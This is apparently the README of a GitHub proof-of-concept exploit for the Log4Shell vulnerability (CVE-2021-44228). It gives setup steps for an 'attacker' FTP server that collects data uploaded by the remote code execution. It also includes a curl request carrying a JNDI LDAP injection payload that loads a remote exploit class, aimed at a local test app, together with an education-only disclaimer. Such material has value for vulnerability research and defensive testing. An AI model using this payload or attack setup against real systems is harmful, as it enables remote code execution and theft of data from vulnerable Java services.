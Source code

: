 # log4jshell
log4jshell is an full fledged POC that exploit LOG4J vulnerability [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) introduced as part of [LOG4J2-313](https://issues.apache.org/jira/browse/LOG4J2-313)  

```
NOTE : 

PLEASE USE THIS APP ONLY FOR EDUCATION PURPOSE.

THIS APP IS DEVELOPED AS A PROOF OF CONCEPT(POC) AND IS INTENTEDED ONLY FOR EDUCATION PURPOSE. 

USING THIS POC APP TO TARGET AGAINST ANY SYSTEMS WITHOUT CONSENT IS PURELY ILLEGAL.

ANY DAMAGES CAUSED DUE TO ILLEGAL USE OF THIS APP/SOFTWARE/POC IS NOT THE RESPONSIBILITY OF THE AUTHOR.

```
![Log4JShell POC](https://user-images.githubusercontent.com/1702155/148016955-26ee3d41-ad28-453c-8420-4ea6bcc4439a.jpg)


## Pre-requisites
* [Python 3](https://www.python.org/downloads/)
* [Java 1.8](https://docs.oracle.com/javase/8/docs/technotes/guides/install/install_overview.html)
* [Apache Tomcat 1.9](https://tomcat.apache.org/download-90.cgi)
* [IntelliJ CE or Eclipse](https://www.jetbrains.com/idea/)


## Installation

Use the python package manager [pip3](https://pip.pypa.io/en/stable/) to install foobar.

```bash
pip3 install pyftpdlib
```

Create the FTP upload directory where the RCE will upload the information

```bash
mkdir -p /tmp/ftpuploads
```

Start the FTP Server locally
```bash
python3 src/main/python/attacker/ftp-server.py
```

## Usage

```bash
curl --location --request GET 'http://localhost:8080/log4jshell/search' \
--header 'Content-Type: application/json' \
--data-raw '{
    "searchText" : "${jndi:ldap://localhost:8389/com.demo.exploit.log4jshell.attacker.payload.Exploit.class}"
}
'
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Acknowledgments

Some of the references code that I have used to build this POC are listed below

* [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
* [rfc2713](https://datatracker.ietf.org/doc/html/rfc2713)
* [marshalsec](https://github.com/mbechler/marshalsec)
* [veracode-research](https://github.com/veracode-research/rogue-jndi)
* [black hat](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


